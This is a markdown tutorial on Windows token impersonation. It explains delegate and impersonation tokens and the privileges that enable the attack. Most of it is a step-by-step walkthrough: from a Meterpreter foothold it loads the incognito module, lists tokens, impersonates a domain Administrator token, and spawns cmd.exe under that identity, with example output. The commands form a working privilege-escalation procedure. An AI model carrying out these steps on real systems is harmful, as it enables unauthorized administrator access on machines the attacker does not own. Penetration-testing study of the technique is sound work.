 
### 🔑 What is a Token?
A **token** in Windows is like a **web cookie** — it temporarily grants access so a user doesn't need to re-enter credentials every time they access files or resources.
### 🧠 Types of Tokens

1. **Delegate Token**
    - Created during **interactive logins**
    - Example: When you log in via **Remote Desktop (RDP)** or directly at the machine
2. **Impersonation Token**
    - Created during **non-interactive logins**
    - Example: When you map a network drive or run a logon script

The following are the privileges that are required for a successful impersonation attack

- **SeAssignPrimaryToken:** This allows a user to impersonate token
- **SeCreateToken:** This allows a user to create an arbitrary token with administrative privileges
- **SeImpersonatePrivilege:**  This allows a user to create a process under the security context of another user typically with administrative privilaeges

`token presist until a reboot. When a user logs off, their delegate token is reported as an impersonate token but will still hold all of the rights of a delegate token`
## **Step-by-Step Exploitation**

### **1. Get a Meterpreter Shell**
First establish a foothold on the target machine.
> ⚠️ Requires Meterpreter from Metasploit
> 

### **2. Load Incognito Module**
```
use incognito
```

### **3. List Available Tokens**
- **List available tokens:** `list_tokens -u`
- Look for **delegation** or **impersonation** tokens (especially those of admin/system users)
```
list_tokens -u
```

Example output:
```
Delegation Tokens Available
========================================
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
SNEAKS.IN\Administrator

Impersonation Tokens Available
========================================
NT AUTHORITY\ANONYMOUS LOGON
```

### **4. Impersonate a Privileged Token**
```
impersonate_token SNEAKS.IN\\Administrator
```
*Note:* Use double backslashes (**`\\`**) in the username

### **5. Verify Your New Identity**
```
getuid
```

### **6. Get a Shell with New Privileges**
```
shell
whoami
# This runs a new shell as the impersonated user.
execute -f cmd.exe -i -t
```
You should now be running as the impersonated user!


